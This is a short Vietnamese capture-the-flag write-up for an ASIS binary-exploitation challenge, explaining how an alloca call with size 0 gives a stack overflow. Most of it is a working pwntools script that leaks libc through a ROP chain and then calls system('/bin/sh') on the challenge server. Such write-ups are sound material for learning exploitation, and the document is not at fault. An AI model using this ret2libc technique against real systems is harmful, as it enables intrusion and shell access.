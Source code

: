 #### Analyze 

Đề cho cả source để phân tích thì mọi thứ khá là cơ bản, ngoài ra chỉ có NX là được bật còn tất cả mitigation còn lại thì tắt. 

Source thì chẳng có gì đáng để nói nên mình sẽ đi thẳng vào tìm bug và exploit luôn

#### Exploit

Bug nằm ở chỗ `buf = (char*)alloca(atoi(size) + 1);`,hàm `alloca()` rất là nguy hiểm khi sử dụng tại vì giá trị trả về của nó trả về một pointer tại khoảng trống lúc bắt đầu khi alloc, nôm na nó có thể sử dụng để gây ra lỗi buffer overflow. 

Áp dụng vào bài này thì nếu ta nhập `size = 0` thì ta có thể gây ra lỗi buffer overflow, rồi từ đó build ROPchain để leak libc, sau khi có libc thì mọi thứ đơn giản chỉ áp dụng phương pháp trên rồi build ROPchain gọi hàm `system('/bin/sh')` 

Một khởi đầu khá là đơn giản. LoL

```py
from pwn import * 


# r = process('./chall')
r = remote('65.21.255.31',13370)

elf = context.binary = ELF('./chall')
# libc  = ELF('/lib/x86_64-linux-gnu/libc.so.6')
libc = ELF('./libc.so.6')
rdi = 0x0000000000401433
ret = 0x40101a
r.sendlineafter(b'size: ',b'0')
payload = b'a'*72  + p64(rdi) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(elf.sym['main'])
r.sendlineafter(b'data: ',payload)
# gdb.attach(r,gdbscript = "b * 0x000000000040136e")
leak = u64(r.recv(6).ljust(8,b'\x00'))
libc.address = leak - libc.sym['puts']
print(hex(leak))
print(hex(libc.address))
payload_1 = b'a'*72 + p64(ret) + p64(rdi) + p64(next(libc.search(b'/bin/sh'))) + p64(libc.sym['system'])
r.sendlineafter(b'size: ',b'0')
r.sendlineafter(b'data: ',payload_1)
r.interactive()

# ASIS{06e5ff13b438f5d6626a97758fddde3e502fe3fc}
```

